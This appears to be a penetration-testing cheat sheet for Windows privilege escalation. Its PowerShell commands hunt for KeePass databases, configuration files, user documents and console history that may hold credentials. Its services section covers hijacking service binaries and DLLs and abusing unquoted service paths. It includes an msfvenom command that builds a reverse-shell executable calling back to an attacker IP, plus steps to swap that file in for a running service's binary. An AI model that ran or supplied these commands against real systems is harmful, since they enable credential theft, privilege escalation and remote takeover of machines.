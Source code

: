 # Files
## Find sensitive files
```powershell
# Keepass db
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# TXT, INI files in Xampp folder
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Files in users directory
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

### Console History file

```powershell
(Get-PSReadlineOption).HistorySavePath

# other way
type C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

# Windows Services
- Hijack service binaries
- Hijack service DLLs
- Abuse Unquoted service paths
- PowerUp
	- `Get-ModifiableServiceFile`

```powershell
# List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Permissions
icacls <path>

# PowerUp
. .\PowerUp.ps1
Get-ModifiableServiceFile

# on attacker
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.191 LPORT=4242 -f exe

# on victim : grab the exe from attacker and replace the service executable
# restart the service
Restart-Service BackupMonitor
```
